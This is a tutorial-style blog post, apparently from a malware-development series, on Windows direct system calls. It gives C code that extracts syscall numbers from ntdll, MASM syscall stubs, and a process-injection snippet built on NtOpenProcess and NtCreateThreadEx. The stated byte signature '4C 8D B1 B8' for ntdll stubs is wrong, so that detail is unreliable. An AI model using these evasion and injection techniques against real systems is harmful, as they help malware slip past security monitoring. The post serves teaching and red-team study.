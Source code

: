 ```yaml
---
description: Finally I talk about sys calls :)
---
```


# Direct System Call

## Introduction

Understanding this flow is crucial when dealing with system calls, as they serve as the gateway between user-mode applications and the underlying Windows kernel. As you know, the workings of Windows API functions follow a layered approach, where calls to functions like `OpenProcess` in `kernel32.dll` are redirected to `kernelbase.dll`, which then invokes the corresponding NTAPI function—such as `NtOpenProcess` in `ntdll.dll` which leads to a system call (`syscall`), transitioning execution into kernel mode where the actual operation is performed.

So why bother with the stupid high level stuff , when we can directly do a syscall is what some _gato_ thought.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption><p><em>What if I just syscall directly ?</em></p></figcaption></figure>

### Theory

Okay so I have given a brief in [this post](https://reze.gitbook.io/bin/winternal/system-calls), but to just give a gist of it, each system call is basically just a number called SSN (system service number) which is what the NTAPI passes to kernel mode where a table SSDT is used to look up for the correct function (SSR) for that SSN and it gets called to then the result being sent back to user mode. We don't need to dive deep into this for now. We can see a pattern in most of the NTAPI functions which would look similar to this

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```nasm
mov r10, rcx
mov eax, [ssn]
test byte ptr ds:[addr], 1
jne there ----+
syscall       |
ret           |
int 2E  <-----+
ret
```

So the first thing it does is to save the value in `rcx` register to `r10`. This is required because, in x64 syscall convention, `rcx` is not preserved across the `syscall` instruction, so Windows stores it in `r10` for safe access. Then it moves the **SSN** to eax and does a test on a kernel variable, this is done in order to check if the system is x64 / x86 and based on that, the particular syscall is done (Older systems used `int 0x2E` for syscall) and the execution is passed to kernel mode.

### Direct System Calls

Okay so as we know that to invoke a syscall, an SSN is really important, so we would have to get the SSN for the NT functions we want to use. This can easily be done by getting the address of that NT function inside NTDLL. Since we know that every function starts with the `4C 8D B1 B8` hex, we can use this to our advantage and get the **SSN** for our function.  After which is just the same thing , setting up arguments & invoking the syscall.&#x20;

<pre class="language-c"><code class="lang-c">DWORD get_sysn(HMODULE ntHandle, LPCSTR fnName) {

    DWORD               ssn = 0;
    UINT_PTR    NtfnAddress = NULL;

    NtfnAddress = GetProcAddress(ntHandle, fnName);
    if ((PVOID)NtfnAddress == NULL) {
        warn("Resource Locator Failed with  @-->0x%d", GetLastError());
        return 0;
    }

    ssn = (DWORD)((PBYTE)(NtfnAddress + 0x4))[0];
    return ssn;
}

<strong>DWORD    dwNtOpenProcess = get_sysn(ntdllModule, "NtOpenProcess");
</strong>DWORD    dwNtAllocateVirtualMemory = get_sysn(ntdllModule, "NtAllocateVirtualMemory");
....
</code></pre>

Since we know what the first 4 bytes would be , we can directly skip through them and get the first byte after it (look at the pic ) which would be our SSN for the particular function. Also since the compiler doesn't know about these functions, we would have to tell it to look for it externally and write an assembly code with the same thing. I have created a [helper.h](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/helper.h) and included every thing in it, like the structures / function prototypes etc, which are required.

{% code title="helper.h" %}
```c
extern NTSTATUS NtOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId OPTIONAL
);
```
{% endcode %}

Then we also have to create an assembly file and link it with our project so that the compiler knows where to look for those functions.&#x20;

{% code title="sys.asm" %}
```nasm
.data
EXTERN dwNtOpenProcess:DWORD;
EXTERN dwNtAllocateVirtualMemory:DWORD;

.code
NtOpenProcess PROC
                mov r10, rcx
                mov eax, dwNtOpenProcess
                syscall
                ret
NtOpenProcess ENDP

NtAllocateVirtualMemory PROC
                mov r10, rcx
                mov eax, dwNtAllocateVirtualMemory
                syscall
                ret
NtAllocateVirtualMemory ENDP
....
END
```
{% endcode %}

after we have written our asm file, we would have to link it with our project , to do that right click on the project in solution explorer and add a build dependency -> masm. Then just make sure that the file sys.asm is being included in the build and is also of type "Microsoft Macro Assembler" (right click on file name -> properties)

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Alright, now we have setup the assembly to run, all that's left is just the same NTAPI process injection. I dont want to fill this blog with a long code of me doing the same thing again so if you want to see it, you can check out the code in [my github](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/main.c). Here's a snippet (as you can see this is very similar to the NTAPI implementation)

```c
STATUS = NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &OA, &CID);
if (STATUS != STATUS_SUCCESS) {
    warn("NtOpenProcess failed with  @-->%d || STATUS @--0x%x", GetLastError(), STATUS);
    goto deadend;
}
....
STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, rBuffer, NULL, FALSE, 0, 0, 0, NULL);
....
STATUS = NtWaitForSingleObject(hThread, FALSE, NULL);

```

### Explanation

What happens here is that we first get the **SSN** of the functions and save it to respective variables. Then we use those same variable in the assembly file and once again use the `extern` keyword in the assembly so that the compiler knows to look for it in an external source (which is our C file).&#x20;

When we call the `NtOpenProcess` function, the compiler starts looking for it outside since we have defined it with the `extern` keyword and finds it in the assembly file and then invokes that function.

## References

* [https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls)
* [https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9](https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9)

